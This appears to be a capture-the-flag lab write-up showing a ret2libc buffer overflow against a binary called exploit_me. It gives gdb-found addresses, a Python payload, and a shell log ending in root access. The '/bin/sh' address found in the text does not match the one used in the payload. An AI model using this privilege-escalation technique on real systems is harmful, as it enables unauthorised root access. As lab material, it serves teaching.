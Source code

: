 # BONUS 01

During writeup_01 we use BufferOverflow + shellcode on `exploit_me` because stack was exec.
But if stack doesnt exec this exploit would not work. So we can use another exploit : `RET2LIBC`

Size for overflow stay the same : `140`
We have to find `system() address`
                 `return address` (exit here for cleanliness)
                 `/bin/sh stirng address`


 *[ buffer overflow ] [system() Address ] [ retour Address ] [ "/bin/sh" Address ]*

`export EXPLOIT="/bin/sh"`

in gdb : 

`p system` = **0xb7e6b060**

`p exit` = **0xb7e5ebe0**

`p *((char **)environ)`  = 0xbffff925 "EXPLOIT=/bin/sh"  = **0xbffff92d** "/bin/sh"


Our playload is : 

`$(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')`

```
zaz@BornToSecHackMe:~$ whoami
zaz
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�������X���
# whoami
root
```

We are root ! 
